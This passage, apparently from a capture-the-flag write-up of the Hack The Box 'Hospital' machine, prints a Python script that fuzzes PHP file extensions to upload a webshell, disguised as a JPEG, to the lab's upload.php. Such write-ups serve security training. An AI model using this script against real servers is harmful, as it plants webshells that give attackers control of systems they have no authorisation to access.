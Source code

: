 ![request from upload.php](/assets/img/htb/hospital/request_1.png)

A custom script was made to automate the task of fuzzing extensions on post requests directed at the 'upload.php' of the target machine, using a custom wordlist with the php extensions from [hacktricks file upload page](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology.). The script facilitates the automated upload of a webshell to the server, facilitating the process of identifying valid extensions and exploiting the vulnerability.

```bash
## Define the URL
url = 'http://hospital.htb:8080/upload.php'

## Define the headers
headers = {
    'Referer': 'http://hospital.htb:8080/index.php',
    'Cookie': 'PHPSESSID=k1ajocskfrc83hru642ag5p9nc',
    'Connection': 'close'
}

def fuzz_upload(wordlist,webshell,fname):
    #upload shell

    with open(webshell,'r') as file:
        shell_data = file.read()

    with open(wordlist,"r") as my_wordlist:
        for line in my_wordlist:
            ext=line.strip()
            files = {
                'image': (f'{fname}.{ext}', shell_data, 'image/jpeg')
            }

            response = requests.post(url, headers=headers, files=files)
            #print(response.text)

            if not "Error" in response.text:
                print(f"[+] Uploaded {fname}.{ext}")
```